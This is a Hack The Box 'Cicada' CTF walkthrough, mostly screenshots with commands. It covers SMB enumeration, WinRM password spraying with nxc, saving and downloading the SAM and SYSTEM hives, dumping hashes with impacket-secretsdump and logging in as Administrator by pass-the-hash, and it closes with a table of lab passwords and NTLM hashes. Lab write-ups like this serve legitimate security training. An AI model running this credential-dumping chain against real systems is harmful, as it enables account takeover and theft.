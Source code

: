 ```yaml
---
title: "Cicada"
date: 2024-11-11
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "cicada", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Cicada

# Cicada

# SMB
![screenshot](/assets/images/cicada1.png)

## Notice from HR.txt
![screenshot](/assets/images/cicada2.png)

```text
Cicada$M6Corpb*@Lp#nZp!8
```

![screenshot](/assets/images/cicada3.png)
![screenshot](/assets/images/cicada4.png)

```sh
enum4linux-ng -A -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb -t 10
```

![screenshot](/assets/images/cicada5.png)

![screenshot](/assets/images/cicada6.png)

![screenshot](/assets/images/cicada7.png)

## Backup_script.ps1
![screenshot](/assets/images/cicada8.png)

Creds for emily.oscars

```sh
nxc winrm cicada.htb -u users.txt -p passwords.txt
```

![screenshot](/assets/images/cicada9.png)
![screenshot](/assets/images/cicada10.png)

# Privilege Escalation

## Enumeration

```powershell
whoami/all
```

![screenshot](/assets/images/cicada11.png)

## Notes


## Attempts

```powershell
# save SAM and SYSTEM via evil-winrm
reg save hklm\sam sam.hive
reg save hklm\system system.hive

download sam.hive
download system.hive
```

![screenshot](/assets/images/cicada12.png)

```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![screenshot](/assets/images/cicada13.png)

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![screenshot](/assets/images/cicada14.png)

# Credentials

| Username          | Password                 | Hash | Source |
| ----------------- | ------------------------ | ---- | ------ |
| david.orelious    | aRt$Lp#7t*VQ!3           |      |        |
| michael.wrightson | Cicada$M6Corpb*@Lp#nZp!8 |      |        |
| emily.oscars      | Q!3@Lp#M6b*7t*Vt         |      |        |
|                   |                          |      |        |

